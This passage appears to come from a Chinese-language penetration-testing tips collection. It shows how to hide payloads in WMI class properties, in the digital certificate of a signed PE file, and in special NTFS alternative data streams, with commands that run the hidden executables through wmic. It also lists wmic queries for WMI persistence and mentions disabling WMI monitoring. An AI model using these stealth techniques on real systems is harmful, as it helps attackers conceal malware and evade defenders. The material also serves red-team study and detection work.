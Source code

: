 读取：

```
$Payload=([WmiClass] 'Win32_Command').Properties['Command'].Value
```

参考：

《WMI Backdoor》

#### 方法2：包含数字签名的PE文件

利用文件hash的算法缺陷，向PE文件中隐藏Payload，同时不影响该PE文件的数字签名

参考：

[《隐写技巧-在PE文件的数字证书中隐藏Payload》](https://github.com/3gstudent/Pentest-and-Development-Tips/edit/master/README.md)

#### 方法3：特殊ADS

(1)...

```
type putty.exe > ...:putty.exe
wmic process call create c:\test\ads\...:putty.exe
```

(2)特殊COM文件

```
type putty.exe > \\.\C:\test\ads\COM1:putty.exe
wmic process call create \\.\C:\test\ads\COM1:putty.exe
```

(3)磁盘根目录

```
type putty.exe >C:\:putty.exe 
wmic process call create C:\:putty.exe
```

参考：

[《Hidden Alternative Data Streams的进阶利用技巧》](https://3gstudent.github.io/3gstudent.github.io/Hidden-Alternative-Data-Streams%E7%9A%84%E8%BF%9B%E9%98%B6%E5%88%A9%E7%94%A8%E6%8A%80%E5%B7%A7/)

---

### Tips 27. Windows系统中值得搜集的信息

#### (1)已注册的WMI信息

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET __RELPATH /FORMAT:list
```

管理员也许会使用WMI记录攻击者调用WMI的操作，可通过wmic查看，当然通过wmic也能关闭该监控功能

